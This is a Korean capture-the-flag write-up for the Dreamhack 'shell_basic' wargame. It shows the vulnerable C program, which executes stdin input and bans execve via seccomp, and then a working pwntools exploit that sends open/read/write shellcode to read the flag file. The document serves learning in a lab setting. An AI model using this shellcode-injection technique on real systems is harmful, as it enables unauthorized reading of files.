 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 다음과 같다.
```
read(0, shellcode, 0x1000);
sc = (void *)shellcode; 
```
표준 입력을 통해 shellcode에 데이터를 저장한 후 함수포인터(sc)에 type casting을 하여 대입한다. 이렇게되면 함수포인터에는 shellcode의 시작주소가 담기게 된다.  이 문제의 목표는 제시한 플래그 파일을 읽어서 플래그를 획득(출력)하는 것이다. 따라서 shellcode에 셸코드를 담게 된다면 sc를 호출하는 순간 shellcode에 담긴 셸코드를 실행시킬 수 있을 것이다. 즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',10732) 

#공격 대상 아키텍쳐는 x86-64
context.arch = 'amd64' 

#flag 위치와 이름
path = "/home/shell_basic/flag_name_is_loooooong"

#셸코드 선언
code = ''

#shellcraft를 이용하여 open system call의 셸코드를 사용.
code += shellcraft.open(path,0 ,0)

#shellcraft를 이용하여 read system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd의 값으로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다.
#주의해야할 점은 buffer 값으로 (rsp-count)가 아니라 rsp 값을 대입해야한다.
code += shellcraft.read('rax','rsp',0x1000)

#shellcraft를 이용하여 write system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd 값으로 1(표준 출력), 나머지 인수는 read와 같음.
code += shellcraft.write(1,'rsp',0x1000)

#출력데이터 받아서 출력.
print(p.recv())

#작성한 셸코드를 기계어로 변환 후 전송
p.send(asm(code))

#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
print(p.recvuntil('}'))
```
